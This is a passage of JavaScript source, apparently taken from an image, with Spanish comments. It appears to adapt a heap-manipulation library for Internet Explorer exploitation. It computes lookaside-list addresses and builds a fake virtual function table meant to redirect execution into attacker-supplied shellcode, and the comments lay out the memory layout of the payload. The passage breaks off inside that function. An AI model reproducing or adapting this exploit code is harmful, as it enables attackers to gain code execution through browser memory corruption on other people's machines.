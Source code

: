     //en C++ los objetos se guardan en una lista de nodos de 48 bytes que se llaman lista de tablas virtuales
    pilaLib.ie.prototype.creaPunteroListaTablas = function(cadenaTablaVirtual)
    {
        var tamanio;
        // Calculate the allocation size
        if (typeof cadenaTablaVirtual == "string" || cadenaTablaVirtual instanceof String)
            tamanio = 4 + cadenaTablaVirtual.length*2 + 2;    // len + string data + null terminator
        else
            tamanio = cadenaTablaVirtual;
        // Make sure that the size is valid
        if ((tamanio & 0xf) != 0)
            throw "Allocation size " + tamanio + " must be a multiple of 16";
        if (tamanio+8 >= 1024)
            throw("Maximum lookaside block tamanio is 1008 bytes");
        // The lookahead array starts at heapBase + 0x688. It contains a 48 byte
        // structure for each block size + header size in 8 byte increments.

        //la lista de tablas contiene paquetes, en cada uno se guarda una tabla y su cabecera aniadida de 8 bytes
        //cada paquete tiene x nodos(es su representacion en memoria).cada nodo es de 48 bytes y guarda solo un marco de su paquete
        //Un marco son 8 bytes del paquete, asi que un supuesto paquete de 16 bytes = 8tabla+8cabecera tendria dos nodos,
        //cada uno guardaria un marco de 8bytes, el primer nodo guardaria el marco con la info de la tabla y el segundo el marco con la cabecera
        //ademas cada nodo guarda informacion extra que no nos importa(esos 40 bytes extra)
        //es decir, un paquete ocupa = tamanioTabla+8(cabecera) =  en este caso 1016bytes = tamanioPaqueteB
        //y se guarda en memoria en marcos de 8bytes, tamanioPaqueteM = tamanioPaqueteB/8 = 127 marcos
        //y estos se guardan en nodos de tamanioNodo=tamanioPaqueteM*48 = en este caso 6096 bytes
        //asi la lista de nodos ocupa = ((tamanioTabla+8)/8)*48 bytes
        return this.basePila + 0x688 + ((tamanio+8)/8)*48;
    }

    //crea un objeto falso con codigo ensamblador que ejecuta el codigo concha
    pilaLib.ie.prototype.creaTabVirt = function(codigoConcha, direccionSaltoEjecucion, tamanio) {
        var tamanio = (tamanio ? tamanio : 1008);
        //asegura que el tamanio de la tabla es valido
        if ((tamanio & 0xf) != 0)
            throw "el tamanio de la Vtable " + tamanio + " debe ser multiplo de 16";
        if (codigoConcha.length*2 > tamanio-138)
            throw("el tamanio maximo del codigo concha es " + (tamanio-138) + " bytes");
        //Construye la tabla virtual que ira emplazada en nuestra lista tablas virtuales de bloques de 1008
        //
        //funcionSuma = add[eax]; add[eax]         funcionResta = sub[eax], al;sub[eax], al      funcionSalto=nop, nop, [exc+8]+124
        //
        // lookaside ptr  jmp +124  addr of jmp ecx  sub [eax], al*2  shellcode       null
        // 4 bytes        4 bytes   124 bytes        4 bytes          size-138 bytes  2 bytes
        // funcionSuma  funcionSalto  31xdirSalto   funcionResta  shellcode+relleno  null
        // 124bytes tienen la dir de salto 31 veces repetida y seguida
